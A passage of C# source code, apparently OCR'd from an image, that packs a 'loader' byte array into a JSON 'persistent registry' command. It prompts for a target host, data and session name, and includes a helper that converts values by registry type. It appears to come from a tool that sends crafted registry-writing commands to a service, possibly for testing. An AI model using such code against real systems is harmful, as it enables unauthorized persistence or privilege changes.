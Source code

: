                         break;

                }

                int pathHolder = 0;
                foreach (byte bit in loader)
                {
                    pathHolder++;
                    byteContainer.Add(bit);
                }

                persistentRegistryData.registryData = byteContainer.ToArray();
                //added stuff:

                //PersistentRegistryData data = new PersistentRegistryData();
                //data.cmd = PersistentRegistryCmds.RestoreData;
                //data.path = "";


                //data.cmd
                Console.WriteLine(JsonConvert.SerializeObject(persistentRegistryData));
                data = JsonConvert.SerializeObject(persistentRegistryData);

                break;
            //Custom cases, such as custom JSON Inputs and more.
            case (100):
                Console.WriteLine("\n What Host Address?  (DNS Names Or IP)\n");
                Console.Write("IP: ");
                host = Console.ReadLine();
                Console.WriteLine("Host address set to: " + host);

                Console.WriteLine("\n What Data Should Be Sent?\n");
                Console.Write("Data: ");
                data = Console.ReadLine();
                Console.WriteLine("Data set to: " + data);

                Console.WriteLine("\n What Session Name Should Be Used? \n");
                Console.Write("Session Name: ");
                sessionName = Console.ReadLine();
                Console.WriteLine("Session name set to: " + sessionName);
                break;
        }


    }
    public static byte[] selectDataType(object value, RegistryValueKind format)
    {
        byte[] array = new byte[50];

        switch (format)
        {
            case RegistryValueKind.String: //1
                array = Encoding.UTF8.GetBytes((string)value);
                break;
            case RegistryValueKind.DWord://4
                array = ((!(value.GetType() == typeof(int))) ? BitConverter.GetBytes((long)value) : BitConverter.GetBytes((int)value));
                break;
            case RegistryValueKind.QWord://11
                if (value == null)
                {
                    value = 0L;
                }
                array = BitConverter.GetBytes((long)value);
                break;
            case RegistryValueKind.MultiString://7
                {
                    if (value == null)
                    {